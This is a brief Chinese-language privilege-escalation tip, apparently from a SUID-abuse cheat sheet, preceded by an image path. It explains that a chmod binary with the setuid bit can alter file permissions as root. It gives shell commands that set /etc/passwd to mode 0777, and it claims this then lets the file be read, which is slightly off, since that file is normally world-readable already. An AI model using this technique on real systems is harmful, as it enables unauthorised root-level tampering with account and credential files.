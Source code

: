 如果 chmod 拥有 S 权限，我们可以使用它以 root 权限来修改其他文件权限。
例如使用 chmod 修改/etc/passwd 文件：
```
LFILE=/etc/passwd
./chmod 0777 $LFILE
```
然后就可以读取passwd文件了
